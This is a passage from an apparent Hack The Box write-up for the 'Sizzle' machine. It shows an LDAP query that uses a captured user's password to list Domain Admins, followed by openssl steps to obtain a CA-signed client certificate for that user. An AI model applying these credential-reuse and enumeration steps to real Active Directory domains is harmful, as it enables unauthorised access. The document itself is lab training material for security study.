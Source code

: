 Now it is dumping a lot of information from the base and with a LDAP query we can look for users in the _Domain Admins_ group:
```markdown
ldapsearch -x -h sizzle.htb.local -D 'amanda@HTB.local' -w 'Ashare1972' -b 'DC=HTB,DC=LOCAL' "(&(ObjectClass=user)(memberOf=CN=Domain Admins,CN=Users,DC=htb,DC=local))"
```

There are two users in this group:
- CN=Administrator,CN=Users,DC=HTB,DC=LOCAL
- CN=sizzler,CN=Users,DC=HTB,DC=LOCAL

## Checking the Certificate Authority on HTTP

The default path for Certificate Authorities on webservers is **/certsrv** which gives us an 401 (Not Authorized) status code normally.
But now we can authenticate with the user _amanda_ and see the **Microsoft Active Directory Certificate Services** in which we can request certificates.

The certificate is needed for certificate authentication because the box does not allow password authentication to use the other services.

```markdown
# Generate key:
openssl genrsa -aes256 -out amanda.key 2048

# Generate certificate signing request:
openssl req -new -key amanda.key -out amanda.csr
```

Now we copy the contents of _amanda.csr_ and let it sign from the CA:

![Request a certificate](https://kyuu-ji.github.io/htb-write-up/sizzle/sizzle_adcs_1.png)

![Advanced certificate request](https://kyuu-ji.github.io/htb-write-up/sizzle/sizzle_adcs_2.png)

![Paste contents of CSR](https://kyuu-ji.github.io/htb-write-up/sizzle/sizzle_adcs_3.png)

![Download certificate as Base64-decoded file](https://kyuu-ji.github.io/htb-write-up/sizzle/sizzle_adcs_4.png)

We now have a certificate that is signed by the CA using the _amanda_ user. Verifying this:
```markdown
openssl x509 -in amanda.cer -text
```
```markdown
Certificate:                                                                                         
    Data:                                                                                                                                                                                                  
        Version: 3 (0x2)                                                                             
        Serial Number:                                                                               
            69:00:00:00:16:88:87:cc:5f:6c:1a:a4:ba:00:00:00:00:00:16                                 
        Signature Algorithm: sha256WithRSAEncryption                                                 
        Issuer: DC = LOCAL, DC = HTB, CN = HTB-SIZZLE-CA        
        Validity                                                                                     
            Not Before: Oct 12 20:24:02 2019 GMT                                                     
            Not After : Oct 11 20:24:02 2020 GMT                                                     
        Subject: DC = LOCAL, DC = HTB, CN = Users, CN = amanda                                       
```
